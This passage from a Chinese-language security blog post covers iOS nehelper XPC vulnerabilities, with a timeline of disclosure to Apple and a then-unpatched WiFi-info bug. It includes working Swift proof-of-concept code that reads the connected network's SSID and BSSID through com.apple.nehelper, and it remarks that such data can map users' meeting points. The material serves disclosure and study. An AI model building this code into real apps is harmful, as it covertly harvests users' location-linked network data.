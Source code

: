 这个代码根据前面的解析，应该就可以读懂啦。原理是 XPC 服务 `com.apple.nehelper` 有一个可以访问任何应用的方法，该方法接受 bundle ID 作为参数，如果设备上安装了具有匹配 bundle ID 的应用，则返回包含一些缓存 UUID 的数组，否则返回空数组。在 `/usr/libexec/nehelper` 的 `-[NEHelperCacheManager onQueueHandleMessage:]` 方法中执行。


**报告的时间线**

* 2021年5月4日：向苹果报告了漏洞
* 2021年5月4日：苹果确认了我的报告
* 2021年5月20日：请求更新状态（但没有收到回复）
* 2021年7月20日：再次请求状态更新
* 2021年8月12日：苹果回复说，他们仍在调查


#### Nehelper Wifi Info 0-day (still works in 15.0.2)

> 漏洞在 iOS 15.0.2 还没有修复。

**漏洞作用**

该漏洞允许有位置访问权限的 app 读取当前设备连接 WiFi 的 `SSID` 和 `BSSID` 信息。

**漏洞说明**

这个漏洞，需要 app 获得`精确位置`的位置权限后，即可获取设备当前连接 WiFi 的 `SSID` 和 `BSSID` 信息。

运行示例：

![iOS-exploit-04.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/0778eac65e9a4ab1accee610f0306837~tplv-k3u1fbpfcp-watermark.image?)

获取 WiFi 的信息，一般是收集用户的连接圈，比如有5个人连接了同一个 BSSID 的 WiFi，说明他们有共同的聚合点。


**漏洞代码**

漏洞攻击示例源代码：[GitHub](https://github.com/illusionofchaos/ios-nehelper-wifi-info-0day)

```swift
func wifi_info() -> String? {
    let connection = xpc_connection_create_mach_service("com.apple.nehelper", nil, 2)
    xpc_connection_set_event_handler(connection, { _ in })
    xpc_connection_resume(connection)
    let xdict = xpc_dictionary_create(nil, nil, 0)
    xpc_dictionary_set_uint64(xdict, "delegate-class-id", 10)
    xpc_dictionary_set_uint64(xdict, "sdk-version", 1) // may be omitted entirely
    xpc_dictionary_set_string(xdict, "interface-name", "en0")
    let reply = xpc_connection_send_message_with_reply_sync(connection, xdict)
    if let result = xpc_dictionary_get_value(reply, "result-data") {
        let ssid = String(cString: xpc_dictionary_get_string(result, "SSID"))
        let bssid = String(cString: xpc_dictionary_get_string(result, "BSSID"))
        return "SSID: \(ssid)\nBSSID: \(bssid)"
    } else {
        return nil
    }
}
```


**漏洞分析**
